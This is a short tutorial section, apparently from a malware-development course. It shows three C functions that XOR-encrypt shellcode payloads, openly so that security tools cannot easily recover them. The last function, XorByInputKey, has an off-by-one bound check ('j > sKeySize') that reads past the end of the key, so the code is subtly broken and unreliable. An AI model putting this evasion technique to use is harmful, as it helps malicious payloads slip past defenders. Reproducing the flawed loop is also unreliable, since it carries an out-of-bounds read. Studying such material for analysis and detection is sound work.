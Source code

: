 # 2.5 Payload Encryption - XOR

### Introduction

XOR encryption is the simplest to use and the lightest to implement, making it a popular choice for malware. It is faster than AES and RC4 and does not require any additional libraries or the usage of Windows APIs. Additionally, it is a bidirectional encryption algorithm that allows the same function to be used for both encryption and decryption.

### XOR Encryption

The code snippet below shows a basic XOR encryption function. The function simply XORs each byte of the shellcode with a 1-byte key.

```c
/*
	- pShellcode : Base address of the payload to encrypt 
	- sShellcodeSize : The size of the payload 
	- bKey : A single arbitrary byte representing the key for encrypting the payload
*/
VOID XorByOneKey(IN PBYTE pShellcode, IN SIZE_T sShellcodeSize, IN BYTE bKey) {
	for (size_t i = 0; i < sShellcodeSize; i++){
		pShellcode[i] = pShellcode[i] ^ bKey;
	}
}
```

### Securing The Encryption Key

Some tools and security solutions can brute force the key which will expose the decrypted shellcode. To make the process of guessing the key more difficult for these tools, the code below performs a minor change and increases the keyspace of the key by making `i` a part of the key. With keyspace much larger now, it's more difficult to brute force the key.

```c
/*
	- pShellcode : Base address of the payload to encrypt 
	- sShellcodeSize : The size of the payload 
	- bKey : A single arbitrary byte representing the key for encrypting the payload
*/
VOID XorByiKeys(IN PBYTE pShellcode, IN SIZE_T sShellcodeSize, IN BYTE bKey) {
	for (size_t i = 0; i < sShellcodeSize; i++) {
		pShellcode[i] = pShellcode[i] ^ (bKey + i);
	}
}
```

The code snippet above can still be hardened further. The snippet below performs the encryption process with a key, using every byte of the key repeatedly making it harder to crack the key.

```c
/*
	- pShellcode : Base address of the payload to encrypt 
	- sShellcodeSize : The size of the payload 
	- bKey : A random array of bytes of specific size
	- sKeySize : The size of the key
*/
VOID XorByInputKey(IN PBYTE pShellcode, IN SIZE_T sShellcodeSize, IN PBYTE bKey, IN SIZE_T sKeySize) {
	for (size_t i = 0, j = 0; i < sShellcodeSize; i++, j++) {
		if (j > sKeySize){
			j = 0;
		}
		pShellcode[i] = pShellcode[i] ^ bKey[j];
	}
}
```

### Conclusion

It is recommended to utilize XOR encryption for small tasks, such as obscuring strings. However, for larger payloads, it is advised to use more secure encryption methods such as AES.